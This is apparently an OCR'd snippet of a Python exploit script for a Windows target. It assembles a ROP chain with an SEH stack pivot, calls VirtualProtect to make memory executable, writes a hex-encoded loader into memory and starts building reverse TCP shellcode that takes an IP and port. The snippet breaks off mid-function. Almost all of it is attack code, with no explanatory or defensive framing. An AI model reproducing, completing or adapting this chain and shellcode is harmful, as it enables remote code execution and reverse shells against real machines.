 ```py
popecx = 0x00401026
popedi = 0x004018ad
popesi = 0x00524e51
ret = 0x4040d0
store = 0x0041896e  # mov dword ptr [ecx], eax ; ret
callesi = 0x004adf6a

over = ''
over += pack(ret)*0x160 # After pivot, esp lands somewhere here.
over += pack(popeax)    # Skips the 'pivot' gadget.
over += pack(pivot)     # SEH handler at first run / popped eax at second run.

over += pack(popesi)    # esi and edi must be writable locations
over += pack(_data)     # within 'call_vprotect' gadget.
over += pack(popedi)
over += pack(_data)

over += pack(call_vprotect) # Calls VirtualProtect() to give RWX permission
over += pack(_data)         # addr = .data
over += pack(0x1000)        # size
over += pack(0x40)          # perm = RWX
over += pack(_data)         # must be writable pointer.
over += pack(ret)*10        # consumed by pops and ret.

### Put loader code

def rop_put_str(where, what):
    what = what + '\0'*(3 - (len(what) % 3)) # Pad to 3-byte unit.
    rop = ''
    for i in range(0, len(what), 3):
        rop += pack(popecx)
        rop += pack(where + i)
        rop += pack(popeax)
        rop += what[i:i+3] + '\0'
        rop += pack(store)
    return rop

loader = '9489c583c004bac8000000b930e05900bf04000000bb030000008b30893101f801d94a75f5be30e0590089ec'
over += rop_put_str(_data, loader.decode('hex'))
over += pack(popesi)
over += pack(_data)
over += pack(callesi) # After call esi, esp + 4 points to the start of main shellcode.

### Put main shellcode

def encode_with_zero(x):
    y = ''
    for i in range(0, len(x), 3):
        y += x[i:i+3] + '\0'
    return y

def shellcode(ip, port, win10=True):
    # Reverse TCP shellcode
    sh = "\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce"
    if win10:
        sh +="\x42" # patch
```